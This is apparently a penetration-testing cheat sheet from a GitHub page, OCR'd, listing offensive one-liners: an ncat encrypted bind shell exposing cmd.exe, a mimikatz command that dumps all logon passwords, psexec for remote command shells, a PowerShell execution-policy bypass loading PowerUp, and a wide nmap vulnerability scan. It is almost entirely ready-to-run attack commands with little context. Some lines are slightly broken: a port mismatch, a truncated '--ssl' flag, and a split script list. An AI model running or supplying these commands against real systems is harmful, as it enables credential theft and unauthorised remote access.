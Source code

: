 ### nc ncat netcat


```bash
# start encrypted bind shell on port 444
ncat --exec cmd.exe --allow 10.11.0.61 -vnl 4444 --ssl

# connect to this shell
ncat -v <host-ip> 4444 --ss
```


# Tools

## mimikatz

```posh
#dump all passwords
sekurlsa::logonPasswords full
```


## openssl

```bash
# creating MD5 linux hash
openssl passwd -1 -salt AbCD4536 <password>
```


## psexec

```posh
# create remote cmd shell on another host
psexec \\<host-ip> -u <domain\\user> -p <password> cmd
```

## Powershell

```posh
# Invoke Powershell script without changing cmd context
powershell.exe -exec bypass -Command "& {Import-Module .\PowerUp.ps1; Invoke-AllChecks}"
```

## nmap

```bash
nmap -sT --script whois-ip,ssh-hostkey,banner,dns-zone-transfer,ftp-bounce,ftp-syst,ftp-anon
,finger,pptp-version,http-apache-negotiation,http-apache-server-status,http-aspnet-debug,http-auth-finder,http-auth
,http-awstatstotals-exec,http-backup-finder,http-bigip-cookie,http-config-backup,http-devframework,http-headers,htt
p-iis-webdav-vuln,http-internal-ip-disclosure,http-methods,http-mobileversion-checker,http-open-proxy,http-php-vers
ion,http-robots.txt,http-robtex-shared-ns,http-security-headers,http-shellshock,http-title,http-vhosts,http-enum,im
ap-capabilities,imap-ntlm-info,ms-sql-empty-password,ms-sql-info,ms-sql-ntlm-info,mysql-info,mysql-empty-password,m
ysql-databases,mysql-variables,mysql-enum,pop3-capabilities,pop3-ntlm-info,rusers,smb-ls,smb-mbenum,smb-protocols,s
mtp-commands,smtp-ntlm-info,smtp-open-relay,smtp-strangeport,ssl-cert,ssl-cert-intaddr,ssl-date,vnc-info,vnc-title
<host-ip>
```
